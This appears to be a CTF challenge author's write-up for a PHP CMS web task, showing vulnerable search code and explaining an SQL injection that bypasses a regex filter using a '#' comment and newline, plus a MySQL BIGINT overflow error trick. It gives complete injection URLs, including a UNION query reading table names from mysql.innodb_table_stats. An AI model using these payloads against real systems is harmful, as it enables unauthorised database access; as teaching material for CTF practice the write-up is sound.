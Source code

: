 ## Idea

1. SQL Injection
2. Mysql trick



## Solution

- SQL Injection

  classes/Board.class.php line 24~42 

  ```php
  function action_search(){
      $column = Context::get('col');
      $search = Context::get('search');
      $type = strtolower(Context::get('type'));
      $operator = 'or';

      if($type === '1'){
          $operator = 'or';
      }
      else if($type === '2'){
          $operator = 'and';
      }
      if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
          $column = 'title';
      }
      $query = get_search_query($column, $search, $operator);
      $result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
      include(CMS_SKIN_PATH . 'board.php');
  }
  ```

  $column variable filtered by using regex but you can use '#' comment

   if your input is 'title#',  get_search_query function will return like this

  ```mysql
  SELECT * FROM table WHERE LOWER(title#) like '%blablabalbal%';
  ```

  and if you enter return value in search parameter, query work like this:

  ```mysql
  SELECT * FROM table WHERE LOWER(title#) like '%{return value}
  blablabalbal%';
  ```

  okay, we got the way to exploit!

  ​

- Mysql trick

  I'm trying to find trick of mysql and I found an interesting bug

  ```mysql
  select * from user where (id=1)-~1
  ```

  Result :

  ```
  ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((`sqli`.`user`.`id` = 1) - <cache>(~(1)))
  ```

  this works like exp function bug XDD

  ```mysql
  select * from user where id='a' or  exp(~id);
  ```

  ```
  ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(`sqli`.`user`.`id`))'
  ```

  I intended the player to use this trick but they did not use this :(

  I made a mistake to set  the mysql account as root :( Sorry..

  ​

  ** Intended solution **

  ```
  table name leak : http://url/index.php?act=board&mid=search&col=title%23&type=1&search=%0a)^(id=1)-~1%23
  ```

  ** Unintended solution **

  ```
  http://url/index.php?act=board&mid=search&col=title%23&type=1&search=test%0a)%3C0%20union%20select%201,(select%20table_name%20from%20mysql.innodb_table_stats%20limit%202,1),3,4,5%23
  ```



## Write up

https://ctftime.org/writeup/8619

http://www.zer0xlab.com/Web_SimpleCMS_CodeGateQ/
